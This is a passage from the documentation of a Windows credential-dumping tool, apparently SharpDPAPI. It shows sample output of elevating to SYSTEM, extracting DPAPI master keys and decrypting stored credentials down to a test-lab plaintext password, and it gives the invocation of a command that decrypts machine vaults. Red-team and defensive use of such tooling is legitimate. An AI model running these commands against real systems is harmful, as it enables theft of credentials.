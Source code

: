       __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.2.0


    [*] Action: Machine DPAPI Credential Triage

    [*] Elevating to SYSTEM via token duplication for LSA secret retrieval
    [*] RevertToSelf()

    [*] Secret  : DPAPI_SYSTEM
    [*]    full: DBA60EB802B6C4B42E1E450BB5781EBD0846E1BF6C88CEFD23D0291FA9FE46899D4DE12A180E76C3
    [*]    m/u : DBA60EB802B6C4B42E1E450BB5781EBD0846E1BF / 6C88CEFD23D0291FA9FE46899D4DE12A180E76C3

    [*] SYSTEM master key cache:

    {1e76e1ee-1c53-4350-9a3d-7dec7afd024a}:4E4193B4C4D2F0420E0656B5F83D03754B565A0C
    ...(snip)...


    [*] Triaging System Credentials


    Folder       : C:\WINDOWS\System32\config\systemprofile\AppData\Local\Microsoft\Credentials

      CredFile           : C73A55F92FAE222C18A8989FEA28A1FE

        guidMasterKey    : {1cb83cb5-96cd-445d-baac-49e97f4eeb72}
        size             : 544
        flags            : 0x20000000 (CRYPTPROTECT_SYSTEM)
        algHash/algCrypt : 32782/26128
        description      : Local Credential Data

        LastWritten      : 3/24/2019 7:08:43 PM
        TargetName       : Domain:batch=TaskScheduler:Task:{B745BF75-D62D-4B1C-84ED-F0437214ECED}
        TargetAlias      :
        Comment          :
        UserName         : TESTLAB\harmj0y
        Credential       : Password123!


    Folder       : C:\WINDOWS\ServiceProfiles\LocalService\AppData\Local\Microsoft\Credentials

      CredFile           : DFBE70A7E5CC19A398EBF1B96859CE5D

        ...(snip)...


#### machinevaults

The **machinevaults** command will elevated to SYSTEM to retrieve the DPAPI_SYSTEM LSA secret which is then used to decrypt any found machine DPAPI masterkeys. These keys are then used to decrypt any found machine Vaults.

Local administrative rights are needed (so we can retrieve the DPAPI_SYSTEM LSA secret).

    C:\Temp>SharpDPAPI.exe machinevaults
